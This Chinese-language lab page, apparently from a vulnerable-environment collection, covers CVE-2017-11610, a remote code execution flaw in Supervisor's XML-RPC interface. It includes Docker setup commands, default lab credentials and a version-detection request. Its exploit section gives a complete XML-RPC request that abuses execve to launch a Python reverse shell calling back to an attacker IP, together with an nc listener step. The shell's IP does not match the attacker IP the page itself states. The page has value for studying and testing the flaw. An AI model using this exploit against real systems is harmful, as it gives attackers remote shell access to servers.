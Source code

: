 ## Supervisor Authenticated Remote Code Execution(CVE-2017-11610)

### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

详细信息参考：[[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

### 影响版本

大于 3.0

#### 已经确认：

* Supervisor 3.1.2 
* Supervisor 3.3.2

#### 已修复此漏洞版本

* Supervisor 3.3.3
* Supervisor 3.2.4
* Superivsor 3.1.4
* Supervisor 3.0.1

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://127.0.0.1/9001/RPC2 | vulapps | vulapps

> 本环境默认无认证，如需开启，请修改 `/etc/supervisor.conf` 文件

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### PoC

[查看巡风检测脚本](https://github.com/ysrc/xunfeng/pull/117/)

无损化检测时可发送该报文，检测返回版本号：

```
POST /RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 110
Host: 127.0.0.1:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.getSupervisorVersion</methodName>
</methodCall>
```

返回内容如下：

```
HTTP/1.1 200 OK
Date: Fri, 28 Jul 2017 05:08:47 GMT
Content-Length: 131
Content-Type: text/xml
Server: Medusa/1.12

<?xml version='1.0'?>
<methodResponse>
<params>
<param>
<value><string>3.3.2</string></value>
</param>
</params>
</methodResponse>
```

如果提示 401 未认证错误，可在请求头中添加 HTTP基础认证

#### Exp

**注意：**该 Exp 使用的`execve`, 如果存在漏洞，会将 `supervisord` 进程替换成指定的程序(本 Exp 中将会替换成 `/usr/bin/python`)，换言之，会导致`supervisord`进程退出，**生产环境中请慎用**

反弹 Shell 演示：

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可

```
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

---

![](./exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
